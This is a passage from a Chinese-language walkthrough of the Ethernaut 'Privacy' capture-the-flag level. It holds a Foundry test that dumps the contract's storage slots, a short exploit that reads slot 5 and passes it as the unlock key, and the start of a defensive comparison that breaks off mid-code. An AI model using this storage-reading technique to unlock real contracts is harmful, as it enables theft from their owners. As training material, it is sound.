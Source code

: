 ```solidity
    // 额外测试：验证存储布局
    function testStorageLayout() public {
        address levelInstance = ethernaut.createLevelInstance(privacyFactory);
        
        // 检查各个 slot 的内容
        bytes32 slot0 = vm.load(address(levelInstance), bytes32(uint256(0))); // locked
        bytes32 slot1 = vm.load(address(levelInstance), bytes32(uint256(1))); // ID
        bytes32 slot2 = vm.load(address(levelInstance), bytes32(uint256(2))); // packed variables
        bytes32 slot3 = vm.load(address(levelInstance), bytes32(uint256(3))); // data[0]
        bytes32 slot4 = vm.load(address(levelInstance), bytes32(uint256(4))); // data[1]
        bytes32 slot5 = vm.load(address(levelInstance), bytes32(uint256(5))); // data[2]
        
        console.log("Slot 0 (locked):", uint256(slot0));
        console.log("Slot 1 (ID):", uint256(slot1));
        console.log("Slot 2 (packed):");
        console.logBytes32(slot2);
        console.log("Slot 3 (data[0]):");
        console.logBytes32(slot3);
        console.log("Slot 4 (data[1]):");
        console.logBytes32(slot4);
        console.log("Slot 5 (data[2]):");
        console.logBytes32(slot5);
    }
}
```

### 关键攻击步骤

1. **分析存储布局**：确定 `data[2]` 存储在 slot 5
2. **读取存储**：使用 `vm.load()` 读取 slot 5 的数据
3. **数据转换**：将 `bytes32` 转换为 `bytes16`
4. **调用 unlock**：使用转换后的 key 解锁合约

```solidity
// 读取 slot 5 中的 data[2]
bytes32 data2 = vm.load(address(instance), bytes32(uint256(5)));

// 转换为 bytes16
bytes16 key = bytes16(data2);  // 取前16个字节

// 解锁合约
instance.unlock(key);
```

## 🛡️ 防御措施

### 1. 不要在链上存储敏感数据

```solidity
// ❌ 不安全：私有数据存储在链上
contract VulnerableContract {
    bytes32[3] private secretData;  // 仍然可以被读取！
    
    function unlock(bytes16 _key) public {
        require(_key == bytes16(secretData[2]));
        // unlock logic
    }
}

// ✅ 安全：使用哈希验证
contract SecureContract {
    bytes32 private dataHash;  // 存储哈希而不是明文
    
    constructor(bytes32 _data) {
```